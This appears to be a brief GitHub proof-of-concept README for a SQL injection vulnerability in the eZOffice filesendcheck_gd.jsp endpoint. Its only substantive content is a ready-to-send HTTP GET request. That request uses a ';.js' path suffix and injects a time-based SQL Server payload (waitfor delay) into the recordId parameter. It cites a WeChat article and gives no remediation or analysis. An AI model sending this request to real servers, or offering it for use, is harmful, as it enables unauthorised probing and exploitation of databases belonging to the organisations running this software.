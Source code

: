 # ezoffice_filesendcheck_sqli

```
GET /defaultroot/modules/govoffice/gov_documentmanager/filesendcheck_gd.jsp;.js?recordId=1;waitfor+delay+'0:0:5'--  HTTP/1.1
Host: 
```
from: https://mp.weixin.qq.com/s/F1m3YkDZWMG8ZTCxnk74Xg?version=4.1.28.6019&platform=win&nwr_flag=1#wechat_redirect
